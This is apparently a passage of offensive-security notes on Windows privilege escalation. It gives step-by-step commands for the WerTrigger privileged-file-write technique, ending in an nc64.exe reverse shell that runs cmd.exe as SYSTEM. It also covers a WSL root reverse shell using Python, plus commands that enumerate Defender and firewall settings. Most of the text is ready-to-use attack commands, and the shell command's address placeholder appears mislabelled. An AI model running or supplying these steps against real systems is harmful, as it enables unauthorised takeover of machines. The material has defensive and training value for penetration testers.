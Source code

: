 ### Privileged-File-Write

Vulnerability identikit:
- write permission in the filesytem `SYSTEM` privileges

Other techniques:
- [https://notes.vulndev.io/wiki/redteam/privilege-escalation/windows/exploiting-privileged-read-write-delete](https://notes.vulndev.io/wiki/redteam/privilege-escalation/windows/exploiting-privileged-read-write-delete)

#### WerTrigger

**Steps**:
1. (on attacker machine) `rlwrap nc -nvlp <REV PORT>`
2. cloning [https://github.com/sailay1996/WerTrigger.git](https://github.com/sailay1996/WerTrigger.git)
3. transfer the files in `bin` folder to the target machine, i.e.:
	- phoneinfo.dll
	- Report.wer
	- WerTrigger.exe
4. transfer `nc64.exe` executable
5. copy the "phoneinfo.dll" file to `C:\Windows\System32\`: `copy phoneinfo.dll C:\Windows\System32\`
6. place 'Report.wer' and 'WerTrigger.exe' in the same folder
7. run "WerTrigger.exe": `.\WerTrigger.exe` - we should have "some kind" of shell; give `dir` command for confirmation
8. to get a SYSTEM shell: `C:\abasolute\path\to\nc64.exe <IP TARGET> <REV PORT> -e cmd.exe`

## OtherTechniques

### WSL

Vulnerability identikit:
1. `bash.exe` or `wsl.exe` in the system
2. root user in the Linux subsystem

Exploitation:
- search `bash` or `wsl` in the system:
	- `where /R c:\windows bash.exe`
	- `where /R c:\windows wsl.exe`
- root user check in the WSL:
	- `</path/to/wsl.exe> whoami` -> `root`
- exploit:
	- `wsl python -c 'PYTHON_REVERSE_SHELL_CODE'`

## Extra

### AVEnumeration

- `sc query windefend` - Windows Defender service info
- `netsh firewall show state` - firewall status info
- `netsh advfirewall show allprofiles` - firewall status info (updated command)
- `netsh advfirewall firewall show rule name=all` - all firewall rules
